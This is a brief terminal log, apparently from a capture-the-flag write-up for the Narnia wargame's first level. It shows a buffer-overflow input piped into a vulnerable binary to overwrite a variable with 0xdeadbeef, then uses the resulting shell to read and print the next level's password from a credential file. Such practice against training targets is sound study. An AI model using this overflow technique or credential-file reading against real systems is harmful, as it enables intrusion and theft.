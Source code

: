 narnia0@narnia:/narnia$ (echo -e 'AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde'; cat;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
ls
narnia0    narnia1    narnia2    narnia3    narnia4    narnia5    narnia6    narnia7    narnia8
narnia0.c  narnia1.c  narnia2.c  narnia3.c  narnia4.c  narnia5.c  narnia6.c  narnia7.c  narnia8.c
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae
